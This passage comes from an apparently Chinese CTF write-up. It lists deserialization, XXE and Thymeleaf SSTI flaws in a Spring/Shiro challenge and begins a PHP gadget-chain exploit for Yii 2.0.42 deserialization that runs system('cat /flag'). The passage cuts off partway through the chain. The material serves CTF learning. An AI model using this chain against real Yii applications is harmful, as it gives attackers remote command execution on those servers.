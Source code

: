 ```xml
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>

</project>
```

首先是 shiro 反序列化 (commons-jxpath 作用域为 test, 所以实际上 jar 包里面没有这个依赖...)

存在 ObjectInputFilter, 不过可以用 SignedObject 二次反序列化一把梭 (getObject 通过 BeanComparator 触发)

![image-20221216002845770](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212160028870.png)

然后 XmlController 存在 xxe

![image-20221216002533437](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212160025533.png)

最后 HelloController 存在 thymeleaf ssti

![image-20221216003003245](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202212160030331.png)

## web2

Yii 2.0.42, 存在反序列化

参考文章: [https://forum.butian.net/share/666](https://forum.butian.net/share/666)

```php
<?php
/***
 * Created by joker
 * Date 2021/9/7 16:35
 ***/
namespace Faker;
class DefaultGenerator{
    protected $default;
    function __construct()
    {
        $this->default = 'cat /flag';
    }
}
class ValidGenerator{
    protected $generator;
    protected $validator;
    protected $maxRetries;
    function __construct()
    {
        $this->generator = new DefaultGenerator();
        $this->maxRetries = '10';
        $this->validator = 'system';
    }
}

namespace Codeception\Extension;
use Faker\ValidGenerator;
class RunProcess{
    private $processes;
```
